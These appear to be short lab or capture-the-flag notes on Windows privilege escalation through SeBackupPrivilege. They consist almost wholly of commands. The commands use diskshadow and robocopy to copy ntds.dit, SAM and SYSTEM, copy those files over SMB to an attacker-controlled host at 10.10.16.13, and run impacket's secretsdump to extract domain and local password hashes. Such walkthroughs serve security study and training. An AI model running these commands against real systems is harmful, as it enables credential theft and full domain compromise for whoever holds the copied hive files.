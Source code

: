 ```bash
cat alvin.dsh

❯ unix2dos alvin.dsh
unix2dos: converting file alvin.dsh to DOS format...
```

mv to c:\windows\temp first OR set metadata in dsh. Details in medium https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960

```winrm
upload alvin.dsh
diskshadow /s alvin.dsh
robocopy /b z:\windows\ntds . ntds.dit                  # Get ntds.dit or SAM. NTDS.dit contains all domain user hashes
robocopy /b z:\windows\System32\Config . SAM            # Get ntds.dit or SAM. SAM contains local user hashed
robocopy /b z:\windows\System32\Config . SYSTEM         # Get SYSTEM !!
```

### Download them
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -user as -password as
```

```winrm
net use \\10.10.16.13\share /u:as as
copy SYSTEM \\10.10.16.13\share
copy ntds.dit \\10.10.16.13\share
copy SAM \\10.10.16.13\share
```

### Root
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system SYSTEM local <- this one works

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM local
```
